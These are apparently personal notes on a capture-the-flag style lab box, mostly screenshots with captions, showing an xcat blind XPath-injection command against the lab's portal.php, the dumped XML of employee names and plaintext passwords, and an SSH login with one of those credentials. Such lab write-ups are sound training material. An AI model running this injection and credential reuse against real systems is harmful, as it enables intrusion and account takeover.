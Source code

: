 ![080bbfde5c8f4e3b7fbcb9ee09498b2d.png](../_resources/080bbfde5c8f4e3b7fbcb9ee09498b2d.png)

register as admin
![490b7fff7027a0c4def225861e6926c1.png](../_resources/490b7fff7027a0c4def225861e6926c1.png)

no admin
![d0f7352faae5cbcabaf35582fa95f0d9.png](../_resources/d0f7352faae5cbcabaf35582fa95f0d9.png)

emp portal
![5a7d1ebd2ebcf0e7feadc9b9ab036940.png](../_resources/5a7d1ebd2ebcf0e7feadc9b9ab036940.png)

assets
![cc6ede1f73c60f471f78a458b2ba71c5.png](../_resources/cc6ede1f73c60f471f78a458b2ba71c5.png)

wheels.service
![321457c15fe49303e7e54936749008a3.png](../_resources/321457c15fe49303e7e54936749008a3.png)

reg service
![974204e5ef18b3bb9f0f674ca9489c1e.png](../_resources/974204e5ef18b3bb9f0f674ca9489c1e.png)

emp portal success
![a69786d5d1848b7b232743056b8d8d9d.png](../_resources/a69786d5d1848b7b232743056b8d8d9d.png)

search car
![41ad275874e16145013293e941e2d769.png](../_resources/41ad275874e16145013293e941e2d769.png)

search bike
![f0d984907ebfded2c82bc71ec5a5c4e6.png](../_resources/f0d984907ebfded2c82bc71ec5a5c4e6.png)

sqli/xxe?
![40c3af69246605d8007d4e768025e634.png](../_resources/40c3af69246605d8007d4e768025e634.png)

https://xcat.readthedocs.io/

`xcat run http://wheels.service/portal.php --headers=headers.txt work work=bike --true-string=dan`

![77fc2c78348a90e39df09a36aeeb7d12.png](../_resources/77fc2c78348a90e39df09a36aeeb7d12.png)

```
<works>
	<work>
		<id>
			1
		</id>
		<employee>
			bob
		</employee>
		<password>
			Iamrockinginmyroom1212
		</password>
		<service>
			car
		</service>
	</work>
	<work>
		<id>
			2
		</id>
		<employee>
			alice
		</employee>
		<password>
			iamarabbitholeand7875
		</password>
		<service>
			car
		</service>
	</work>
	<work>
		<id>
			3
		</id>
		<employee>
			john
		</employee>
		<password>
			johnloveseverontr8932
		</password>
		<service>
			car
		</service>
	</work>
	<work>
		<id>
			4
		</id>
		<employee>
			dan
		</employee>
		<password>
			lokieismyfav!@?12
		</password>
		<service>
			bike
		</service>
	</work>
	<work>
		<id>
			5
		</id>
		<employee>
			alex
		</employee>
		<password>
			alreadydead???234
		</password>
		<service>
			bike
		</service>
	</work>
	<work>
		<id>
			6
		</id>
		<employee>
			selene
		</employee>
		<password>
			lasagama90809!@
		</password>
		<service>
			bike
		</service>
	</work>
</works>
```

`$ ssh bob@wheels.pg`

![675f4bded1e322c7a2222608bd686a9e.png](../_resources/675f4bded1e322c7a2222608bd686a9e.png)

![6377e4f9f7a683ca73f7b2ddb037a8bb.png](../_resources/6377e4f9f7a683ca73f7b2ddb037a8bb.png)

![87330c64d1239848a65df039a9a86e8f.png](../_resources/87330c64d1239848a65df039a9a86e8f.png)

![df51f3854666b4c7b96be5f7979d1b0c.png](../_resources/df51f3854666b4c7b96be5f7979d1b0c.png)

TODO: Study up on BO's